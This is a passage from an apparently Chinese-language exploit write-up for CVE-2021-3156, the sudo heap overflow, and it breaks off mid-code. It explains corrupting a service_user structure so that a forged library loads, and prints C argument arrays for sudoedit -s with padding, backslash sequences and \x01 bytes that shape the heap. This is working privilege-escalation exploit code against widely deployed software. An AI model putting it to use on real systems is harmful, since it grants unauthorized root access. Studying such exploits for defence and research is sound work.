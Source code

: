 上面是`user_args`这个chunk，下面是目标字符串`mymachine`，相差只有`0x4790 - 0x4370 == 0x420`字节。

现在，只需填充null直到覆盖第1个`service_user`结构，将`service_user->ni-library`覆盖为null，且将name覆盖为伪造库的库名。

![1-6-structure](\images\posts\CVE-2021-3156\1-6-structure.png)

首先设置如下参数，使得分配的`user_args`堆块大小和`LC_MESSAGE`环境变量释放的堆块大小一样。

```c
		char *args[] = {
			"/usr/bin/sudoedit",
			"-s",
			"BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAAA\\",
			NULL
		}; //B and A's to match the chunk size we want freed in the beginning
```

然后，创建很长的环境变量，结尾放置伪造的`service_user`结构：

```c
		char *extra_args[] = {
			"\\",
			"\\",
			"\\",
			"\\",
			"\\",
			"\\",
			"\\",
			"\\",
			"\\",
			"\\",
			"\\",
			"\\",
			"\\",
			"\\",
			"\\",
			"\\",
			"\\",
			"\\",
			"\\",
			"\\",
			"\\",
			"\x01\\",
			"\\",
			"\\",
			"\x01\\",
			"\\",
			"\\",
			"\\",
			"\\",
			"\\",
			"\\",
			"\\",
			"\\",
```